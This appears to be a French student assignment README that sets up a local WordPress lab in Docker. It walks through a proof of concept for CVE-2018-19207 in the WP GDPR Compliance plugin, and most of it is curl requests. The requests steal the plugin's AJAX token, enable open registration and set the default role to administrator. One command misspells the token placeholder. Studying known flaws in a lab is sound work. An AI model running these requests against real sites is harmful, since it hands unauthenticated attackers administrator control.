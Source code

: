 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via `http://localhost:8000/`
2. Créer le compte administrateur en suivant les instructions de Wordpress (N.B : Attention l'adresse mail n'a pas besoin d'être correcte mais son format doit l'être !)
3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## PoC (WIP)

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Tentez de créer un nouveau compte à l'adresse `http://localhost:8000/wp-login.php?action=register`

On peut voir le message d'erreur suivant "User registration is currently not allowed."
Nous allons modifier les paramètres Wordpress afin d'autoriser la création de nouveaux comptes.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`
( Dans la requête à utiliser ci-après, les données sont au format UrlEncoded )

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`,
on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite désormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Créer un compte via `http://localhost:8000/wp-login.php?action=register`, puis se connecter via `http://localhost:8000/wp-login.php` après vérification de l'adresse email.

Créez-vous un nouveau compte `http://localhost:8000/wp-login.php?action=register`.

Pour aller plus vite, sans valider l'adresse email du nouveau compte, vous pouvez vous connecter grâce au compte admin initial. Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator".

Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
